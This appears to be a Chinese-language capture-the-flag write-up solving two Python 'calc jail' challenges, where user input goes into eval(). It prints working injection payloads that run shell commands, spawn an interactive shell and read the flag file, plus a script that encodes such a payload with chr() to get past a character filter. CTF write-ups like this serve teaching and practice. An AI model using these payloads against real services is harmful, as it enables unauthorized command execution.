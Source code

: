# 0x01 Week1

#### 1.calc_jail_beginner

题目给了远程代码

```py
input_data = input("> ")
print('Answer: {}'.format(eval(input_data)))
```

> PayLoad：
>
> `__import__('os').system('cat flag')` 
>
> `print(open('flag').read())`
>
> `__import__('os').system('sh')`  # 交互式shell

#### 2. calc_jail_beginner_level1

```py
#the function of filter will banned some string ',",i,b,`
#it seems banned some payload 
#Can u escape it?Good luck!

def filter(s):
    not_allowed = set('"\'`ib')
    return any(c in not_allowed for c in s)
input_data = input("> ")
if filter(input_data):
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))
```

过滤了单引号、双引号、反撇号、字符i和b

`__import__`和`__builtins__`用不了了，除非经过编码再解码

解法1：套一层eval，执行字符串用chr()拼接，省去了引号
```python
# eval("__import__('os').system('sh')")
payload = "__import__('os').system('sh')"
res = 'eval('
for i in payload:
    res += 'chr(' + str(ord(i)) + ')+'
res = res.rstrip('+') + ')'
print(res)
```

解法2：读文件，文件路径用chr()拼接

> #eval出的结果有回显
> open('flag').read() 
> open(chr(102)+chr(108)+chr(97)+chr(103)).read()
> 不足：需要知道/猜到flag的路径
